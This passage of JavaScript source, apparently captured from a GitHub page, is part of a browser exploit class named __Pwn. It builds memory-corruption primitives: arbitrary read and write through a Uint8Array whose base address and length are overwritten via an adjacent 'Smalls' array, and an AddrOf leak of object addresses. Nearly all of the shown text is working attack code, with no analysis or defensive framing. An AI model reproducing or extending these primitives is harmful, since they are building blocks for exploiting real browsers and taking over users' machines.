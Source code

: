 ```Javascript

        if(U8A.byteLength != Length) {
            throw "Error: The Uint8Array's length doesn't check out";
        }

        //
        // Fix U8A's base address.
        //

        Smalls[13] = Addr.asDouble();

        if(IsRead) {
            return U8A.slice(0, Length);
        }

        U8A.set(LengthOrValues);
    }

    Read(Addr, Length) {
        return this.__Access(Addr, Length);
    }

    WritePtr(Addr, Value) {
        const Values = new Int64(Value);
        this.__Access(Addr, Values.bytes());
    }

    ReadPtr(Addr) {
        return new Int64(this.Read(Addr, 8));
    }

    AddrOf(Obj) {

        //
        // Fix U8A's byteLength and base.
        //

        Smalls[11] = 8;
        Smalls[13] = this.SavedBase;

        //
        // Smalls is contiguous with U8A. Go and write a jsvalue in its buffer,
        // and then read it out via U8A.
        //

        Smalls[14] = Obj;
        return Int64.fromJSValue(U8A.slice(0, 8));
    }
};

const Pwn = new __Pwn();
```
